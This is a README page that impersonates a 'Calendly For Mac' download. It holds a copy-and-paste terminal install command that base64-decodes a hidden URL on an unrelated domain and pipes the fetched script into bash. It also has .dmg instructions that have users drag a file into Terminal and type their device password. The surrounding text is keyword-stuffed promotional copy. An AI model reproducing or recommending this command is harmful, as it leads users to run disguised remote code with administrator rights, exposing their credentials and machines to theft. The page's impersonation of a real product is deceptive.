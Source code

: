 # Calendly For Mac — Download Now 📅

![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSGD1qEyjIb26qbrLgUIVVr0gEhG2WLBYDFQQ&s)

Calendly For Mac is a powerful scheduling software designed for macOS users, simplifying the process of booking meetings and managing appointments. Streamline your calendar with automated scheduling and integrations. Follow the instructions below to install Calendly on your Mac and enhance your productivity.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/calendly)

If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Calendly For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Calendly

- 📅 **Automated Scheduling**: Schedule meetings effortlessly with customizable availability.
- 🔗 **Calendar Integrations**: Sync with Google Calendar, Outlook, and other platforms.
- 🤝 **Team Collaboration**: Share booking links and coordinate team schedules seamlessly.
- 📊 **Analytics Tracking**: Monitor booking trends and meeting performance.
- 🔒 **Secure Data Handling**: Protect user data with robust encryption.
- 🔔 **Automated Reminders**: Send automatic notifications to reduce no-shows.

## About Calendly

Calendly For Mac is a leading **scheduling software** designed for macOS users, offering an intuitive solution for managing appointments and meetings. Whether you're a freelancer, business owner, or team leader, Calendly streamlines **automated scheduling** by allowing you to set your availability and share booking links with ease. Its **free download** option makes it accessible for macOS users, providing a native experience optimized for productivity.

The software’s **calendar integrations** with tools like Google Calendar, Outlook, and iCal ensure your schedule stays in sync across platforms. Calendly’s user-friendly interface allows you to create customized event types, set buffers between meetings, and automate reminders, making **appointment management** effortless. Its **macOS productivity** focus ensures a seamless experience on your MacBook or iMac, with a design that feels native to macOS.

For teams and professionals, Calendly offers **team collaboration** features, enabling you to coordinate group schedules and share booking links with clients or colleagues. The software’s **analytics tracking** provides insights into booking patterns, helping you optimize your time and improve client interactions. With **secure data handling**, Calendly ensures that sensitive scheduling information is protected, giving you confidence in managing your appointments.

By choosing Calendly For Mac, you gain access to a powerful platform that simplifies **scheduling software** and boosts efficiency. The **free macOS download** allows you to explore features like **automated scheduling** and **calendar integrations** without upfront costs. Join thousands of macOS users who rely on Calendly to manage their schedules and focus on what matters most.

## ✅ Advantages of Calendly

- 🚀 **Effortless Scheduling**: Automate meeting bookings with customizable availability.
- 🔄 **Seamless Integrations**: Sync with Google Calendar, Outlook, and more.
- 👥 **Team Coordination**: Share booking links for efficient team scheduling.
- 📈 **Insightful Analytics**: Track booking trends to optimize your schedule.
- 🔐 **Secure Data Protection**: Safeguard scheduling data with encryption.
- 🔔 **Automated Notifications**: Reduce no-shows with timely reminders.

## 🖼 Preview

![Scheduling Dashboard](https://images.ctfassets.net/k0lk9kiuza3o/748qewdbQH1dPJsjY1uP6v/2abdf0016d386e3057795993be883cd9/Calendly-Teams-Scheduling.png?q=85&fm=webp)
*Manage your schedule with a clean, intuitive dashboard.*

![Event Creation](https://cdn.prod.website-files.com/6706802514ffa549d0bf0b8a/677e118a7c29985ba1b20a63_675d9258550243ce472a3a5d_675b461b1a45b45ad5eaf04f_HLrm6YNdZPmypX7aMF8UwvxwHEMqraGrMdgh1b6C4sNsr8BJQh8ybM2o5_OtFScHLWrgGXHig3lSKMssnOTbx8Issm4fEWXhtCP4NZ5nqHowoVFB1temyD1_wWXwdm8a1Avcjm3ZHx5zn-qZMTRbLK4.png)
*Create customized event types for easy scheduling.*

![Calendar Integration](https://www.siliconrepublic.com/wp-content/uploads/2022/07/Screenshot-2022-07-13-at-11.00.59.png)
*Sync seamlessly with your favorite calendar apps.*

![Booking Interface](https://i.postimg.cc/4yG3kT7Z/calendly-booking.jpg)
*Share booking links for effortless appointment management.*

## 🔍 Tags

Calendly download, calendly, calendly mac, calendly for mac, calendly app, calendly desktop apple calendar, calendly pricing, calendly free, free calendly, my calendly, calendly link, calendly cost
